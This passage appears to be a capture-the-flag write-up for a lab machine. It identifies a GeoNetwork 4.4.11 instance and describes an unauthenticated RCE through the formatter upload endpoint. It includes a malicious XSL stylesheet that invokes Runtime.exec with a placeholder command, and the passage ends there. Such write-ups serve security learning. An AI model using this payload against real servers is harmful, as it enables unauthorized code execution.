


## User Flag
- Recon:
    - 
- If we visit geo.airways.htb
    - 
- We can notice the version is `4.4.11`, which has an unauthenticated RCE CVE in the wild, thus lets try to exploit this
- How it works: https://ethiack.com/info-hub/research/geonetwork-preauth-RCE has a great explanation of it, but in short:
>Root cause: the API endpoint responsible for creating a new formatter via file upload is missing an authorization/@PreAuthorize check, so it does not require any credentials.
Trigger condition: an attacker sends an unauthenticated request to the formatter upload endpoint (/geonetwork/srv/api/formatters) with a crafted .xsl or .zip formatter file.
- great, let's use burp to try to send this malicious payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="2.0"
    xmlns:xsl="<http://www.w3.org/1999/XSL/Transform>"
    xmlns:rt="java:java.lang.Runtime">
  <xsl:output method="text"/>
  <xsl:template match="/">
    <xsl:value-of select="rt:exec(rt:getRuntime(), 'PAYLOAD')"/>
  </xsl:template>
</xsl:stylesheet>
```
